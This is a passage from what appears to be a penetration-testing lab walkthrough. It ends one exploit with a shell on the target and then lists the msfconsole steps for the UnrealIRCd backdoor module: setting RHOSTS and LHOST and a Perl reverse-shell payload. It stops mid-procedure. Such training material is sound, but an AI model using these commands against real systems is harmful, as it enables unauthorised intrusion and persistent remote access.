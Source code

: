 Execute the exploit by typing:
```bash
run
```

After running the exploit, you should see output similar to this:

![alt text](images/image-13.png)

Now, you have a shell connection with the target. Use this shell to execute further commands or maintain persistence on the compromised system.

### 5. UnrealIRCd Exploit

To exploit the backdoor vulnerability in UnrealIRCd on port 6667, we will use the **`exploit/unix/irc/unreal_ircd_3281_backdoor`** module in **Metasploit**.

---

#### Steps to Exploit:

1. **Open `msfconsole`**:
	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/unix/irc/unreal_ircd_3281_backdoor
	```

3. **List options**:
	Display all configurable options for this exploit.
	```bash
	show options
	```

4. **Set the target IP (`RHOSTS`)**:
	```bash
	set RHOSTS <target IP>
	```

5. **Set `LHOST`**:
	Configure your local IP address to receive the reverse shell connection.
	```bash
	set LHOST <local IP>
	```

6. **Change the payload to Perl reverse shell**:
	```bash
	set PAYLOAD cmd/unix/reverse_perl
	```
